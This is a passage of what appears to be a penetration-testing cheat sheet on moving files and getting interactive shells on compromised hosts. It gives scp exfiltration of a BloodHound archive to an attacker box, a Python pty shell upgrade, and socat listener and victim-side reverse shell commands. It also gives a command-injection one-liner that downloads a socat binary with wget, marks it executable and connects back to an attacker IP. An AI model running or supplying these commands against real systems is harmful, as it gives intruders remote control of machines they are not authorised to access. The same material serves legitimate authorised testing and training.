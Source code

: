 ## \*Windows to Linux <a href="#windows-to-linux" id="windows-to-linux"></a>

```bash
scp local_file username@hostname_or_ip:/remote/path
#Example
scp 20240830124156_BloodHound.zip kali@10.50.57.149:/var/www/uploads
```

## Method 1: Python pty module <a href="#method-1-python-pty-module" id="method-1-python-pty-module"></a>

One of my go-to commands for a long time after catching a dumb shell was to use Python to spawn a pty. The [pty module](https://docs.python.org/2/library/pty.html) let’s you spawn a psuedo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'                                      
```

```bash
stty raw -echo
```

## Method 2: Using socat <a href="#method-2-using-socat" id="method-2-using-socat"></a>

[socat](http://www.dest-unreach.org/socat/doc/socat.html) is like netcat on steroids and is a very powerfull networking swiss-army knife. Socat can be used to pass full TTY’s over TCP connections.

If `socat` is installed on the victim server, you can launch a reverse shell with it. You _must_ catch the connection with `socat` as well to get the full functions.

The following commands will yield a fully interactive TTY reverse shell:

**On Kali (listen)**:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**On Victim (launch)**:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.10:4444
```
